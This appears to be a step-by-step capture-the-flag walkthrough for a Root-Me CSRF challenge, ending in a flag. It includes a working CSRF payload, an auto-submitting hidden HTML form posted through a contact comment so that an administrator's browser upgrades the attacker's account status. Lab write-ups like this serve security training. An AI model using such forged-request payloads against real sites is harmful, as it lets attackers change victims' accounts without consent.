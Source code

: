 1. [Open the task](http://challenge01.root-me.org/web-client/ch22/index.php)
2. [Register an account](http://challenge01.root-me.org/web-client/ch22/index.php?action=register)
3. [Log in to your account](http://challenge01.root-me.org/web-client/ch22/index.php?action=login)
4. [Go to the profile page](http://challenge01.root-me.org/web-client/ch22/index.php?action=profile)
5. Make the checkbox visible through the developer tool

	It was: ```<input type="checkbox" name="status" disabled="">```

	Become: ```<input type="checkbox" name="status">```

6. Launch **Burp Suite::Proxy::HTTP history**
7. Click the **Submit** button and check the request data
8. [Go to the Contact tab](http://challenge01.root-me.org/web-client/ch22/index.php?action=contact)
9. Enter in the **email** field: **_"username"_** + **_"@mail"_**
10. Enter the following into the **Comment** form:

```
<form name="csrf" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data"> 
<input type="hidden" name="username" value="YOUR_USERNAME"> <!-- Enter your username -->
<input type="hidden" name="status" value="on"> 
</form> 
<script>document.csrf.submit()</script>
```

11. If everything is done correctly, you will see the following message: 

>Your message has been posted. The administrator will contact you later.

12. [Checking the Private tab](http://challenge01.root-me.org/web-client/ch22/index.php?action=private), you can get a **flag**